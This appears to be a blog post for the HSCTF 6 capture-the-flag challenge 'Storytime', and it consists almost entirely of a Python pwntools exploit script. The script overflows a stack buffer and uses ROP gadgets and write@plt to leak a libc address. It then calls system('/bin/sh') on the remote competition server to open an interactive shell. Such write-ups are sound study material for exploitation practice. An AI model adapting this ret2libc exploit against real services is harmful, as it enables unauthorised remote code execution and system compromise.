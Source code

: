 ```yaml
---
layout: post
published: true
title: 'HSCTF 6: Storytime'
---
```

{% highlight python %}
#Completed
from pwn import *

#p = process("./storytime")
elf = ELF("./storytime")
rop = ROP(elf)


WRITE = elf.plt["write"]
libc_start_main = elf.symbols['__libc_start_main']
climax = 0x000000000040060e


log.info("write@plt: " + hex(WRITE))
log.info("climax address: " + hex(climax))
log.info("__libc_start_main: " + hex(libc_start_main))

padding = "A"*56
ROP_RDI = (rop.find_gadget(["pop rdi", "ret"]))[0]
ROP_RSI = (rop.find_gadget(['pop rsi', 'pop r15', 'ret']))[0] #don't understand
payload = padding + p64(ROP_RDI) + p64(0x1) + p64(ROP_RSI) + p64(libc_start_main) + p64(0x1) + p64(WRITE) + p64(climax) #+ p64(MAIN) 

rm = remote("pwn.hsctf.com", 3333)

#send payload 1
rm.sendline(payload)

rm.recvuntil('story:')

leak = u64(rm.recv()[0:8].strip().ljust(8, '\x00'))

log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))

libc = ELF('libc.so.6')
libc.address = leak -libc.sym['__libc_start_main']
log.info("Address of libc %s " % hex(libc.address))

#Doan nay giong bai truoc (Combo Chain Lite)
BINSH = next(libc.search("/bin/sh"))
SYSTEM = libc.sym['system']

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))

payload2 = padding + p64(ROP_RDI) + p64(BINSH) + p64(SYSTEM)
rm.sendline(payload2)

rm.interactive()
rm.close()
{% end highlight %}